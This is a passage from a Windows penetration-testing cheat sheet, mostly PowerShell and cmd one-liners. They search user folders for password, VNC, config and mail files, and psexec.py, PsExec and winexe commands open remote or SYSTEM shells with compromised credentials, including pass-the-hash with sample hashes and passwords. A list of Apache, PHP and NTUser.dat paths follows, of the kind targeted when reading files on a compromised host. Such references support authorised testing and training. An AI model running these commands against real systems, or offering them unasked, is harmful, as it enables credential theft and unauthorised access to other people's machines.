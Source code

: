 ```powershell
# Any Apache web logs?
dir /s access.log error.log
Get-Childitem –Path C:\ -Include access.log,error.log -File -Recurse -ErrorAction SilentlyContinue

# Any interesting files to look at? Possibly inside User directories (Desktop, Documents, etc)?
dir /s *pass* == *vnc* == *.config* 2>nul
Get-Childitem –Path C:\Users\ -Include *password*,*vnc*,*.config -File -Recurse -ErrorAction SilentlyContinue
Get-Childitem -Path C:\Users -Filter *password*,*vnc*,*.config,*.txt* -Recurse

# Emails
C:\users\(your user name)\AppData\Local\Microsoft\Windows Mail\Local Folders
C:\Users\AppData\Local\Packages\LocalState\Indexed\LiveComm

findstr /si password *.dbx
dir *.dbx /s
Get-Childitem -Path C:\Users -Filter *.dbx -Recurse
Get-Childitem -Path C:\Users -Include *.dbx -Recurse -File -ErrorAction SilentlyContinue
```

## Spawn a shell using compromised credentials

```powershell
# If no password is provided, it will be prompted
./psexec.py [[domain/]username[:password]@]<targetName or address>
./psexec.py -hashes <LM:NT> administrator@10.10.10.103 # Pass-the-Hash
psexec \\192.168.122.66 -u Administrator -p 123456Ww
psexec \\192.168.122.66 -u Administrator -p q23q34t34twd3w34t34wtw34t # Use pass the hash
winexe -U active.htb/SVC_TGS%'GPPstillStandingStrong2k18' //10.10.10.100 cmd.exe
```

From local administrator to NT SYSTEM

```powershell
PsExec.exe -i -s cmd.exe
```

## Logs

```
C:\Apache\conf\httpd.conf
C:\Apache\logs\access.log
C:\Apache\logs\error.log
C:\Apache2\conf\httpd.conf
C:\Apache2\logs\access.log
C:\Apache2\logs\error.log
C:\Apache22\conf\httpd.conf
C:\Apache22\logs\access.log
C:\Apache22\logs\error.log
C:\Apache24\conf\httpd.conf
C:\Apache24\logs\access.log
C:\Apache24\logs\error.log
C:\Documents and Settings\Administrator\NTUser.dat
C:\php\php.ini
C:\php4\php.ini
C:\php5\php.ini
C:\php7\php.ini
C:\Program Files (x86)\Apache Group\Apache\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache\logs\access.log
C:\Program Files (x86)\Apache Group\Apache\logs\error.log
C:\Program Files (x86)\Apache Group\Apache2\conf\httpd.conf
C:\Program Files (x86)\Apache Group\Apache2\logs\access.log
C:\Program Files (x86)\Apache Group\Apache2\logs\error.log
c:\Program Files (x86)\php\php.ini"
```

[^2]: [Unquoted Service Paths](Unquoted%20Service%20Paths.md)
[^1]: https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/laps